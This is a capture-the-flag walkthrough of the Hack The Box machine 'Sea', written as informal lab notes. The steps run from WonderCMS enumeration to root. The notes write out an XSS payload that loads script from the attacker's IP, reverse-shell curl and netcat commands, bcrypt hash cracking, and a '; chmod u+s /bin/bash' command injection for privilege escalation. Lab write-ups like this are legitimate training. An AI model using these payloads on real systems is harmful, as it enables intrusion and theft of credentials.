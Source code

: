 Target:
10.10.11.28

**P-80**

Contact page with post form: http://sea.htb/contact.php

Looking at the source code of the main page i can see that it points to a picture of a bike.png, so i decide to fuzz that address: http://sea.com/themes/bike

```php
gobuster dir -w /usr/share/seclists/SecLists-master/Discovery/Web-Content/common.txt -u http://sea.htb/themes/bike -x txt,md
```

`/README.md            (Status: 200) [Size: 318]`

```php
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

This reveals the CMS, so i'll look online for exploits.

**Exploit web-server:**

https://github.com/prodigiousMind/CVE-2023-41425

- Start a netcat session 
- Execute script and copy the payload into the contact form under website.

```php
python3 exploit.py http://sea.htb/ <IP> 25888
```

`http://sea.htb"></form><script+src="http://10.10.14.23:8000/xss.js"></script><form+action="`

- Now, after reading the exploit script we will find it create a shell file in this pass `{/themes/revshell-main/rev.php?lhost=” + ip + “&lport=” + port}`

- Wait for the http server to serve the exploit.
- Use curl to access the exploit.

```php
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.20&lport=25888'
```

_The original script will create a malicious URL like [http://sea.htb/wondercms/index.php?page=loginURL](http://sea.htb/wondercms/index.php?page=loginURL), which will not be correct. It should be [http://sea.htb/index.php?page=loginURL](http://sea.htb/index.php?page=loginURL) that we should change this in the exploit script, or simply provide [http://sea.htb/loginURL](http://sea.htb/loginURL) as the first parameter for the EXP._

Stabilise shell:

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Find user amay that has user.txt, but it's owned by root.

I'm having trouble so i may try a different exploit, or mix it up with tools. 
- Could have missed /bike in the `curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.23&lport=9999'`

```php
curl 'http://sea.htb/themes/bike/revshell-main/rev.php?lhost=10.10.14.23&lport=9999'
```

Which would also mean the exploit command would be:

```xml
python3 exploit.py http://sea.htb/themes/bike <HOST_IP> <HOST_PORT>
```

---

Login Page:
`http://sea.htb/loginURL`

Exploit:
https://github.com/insomnia-jacob

```php
nc -lvp 25888
```

```php
python3 exploit.py -u http://sea.htb/loginURL -i <your_ip> -p <your_port> -r http://<your_ip>:8000/main.zip
```

![[Pasted image 20240916084532.png]]

![[Pasted image 20240916084648.png]]

Linux sea 5.4.0-190-generic

`Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
`
Location of our malicious revshell:
`/var/www/sea/themes/revshell-main/rev.php`

database.js

```php
cat /var/www/sea/data/database.js
```

![[Pasted image 20240916090024.png]]

"password": 
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

```php
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q
```

Two character escapes are still in the password so the final pass is:

```php
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q
```

```php
hashid -m hash.txt
```
- bcrypt hashcat mode 3200

```php
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance`

```php
mychemicalromance
```

![[Pasted image 20240916091525.png]]

I ssh into the machine as amay which gives me a stable shell.

![[Pasted image 20240916091753.png]]
amay user.txt:
`2ee3647dd3f5157e90baa58a730b4d34`

/tmp/tmux-1000
tmux 3.0a
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions

Open port on 8080

![[Pasted image 20240916092956.png]]

Port forward

```php
ssh -L 9090:127.0.0.1:8080 -N amay@sea.htb
```
- Forwarded to 9090 because burp is using 8080

Now to see what's on port 8080:

```php
http://localhost:9090
```

![[Pasted image 20240916093420.png]]

![[Pasted image 20240916094156.png]]

The Analyze request is vulnerable to RCE

Taking that to **Repeater** we notice that the web app is vulnerable to a **Command Injection** by just appending `; chmod u+s /bin/bash` to the `log_file` parameter we were able to set an SUID permission on `/bin/bash`.

```php
; chmod u+s /bin/bash
```

![[Pasted image 20240916094505.png]]

Taking a look at the binary we can confirm that it has now an SUID permission on. using `/bin/bash` with the `-p` flag to retain SUID(root) privileges we were able to switch to **root**.

```php
./bash -p
```

https://gtfobins.github.io/gtfobins/bash/

![[Pasted image 20240916094729.png]]

cc8b94043d66ae0c5dc2032417bc71a6

---

09:48 2024-09-16

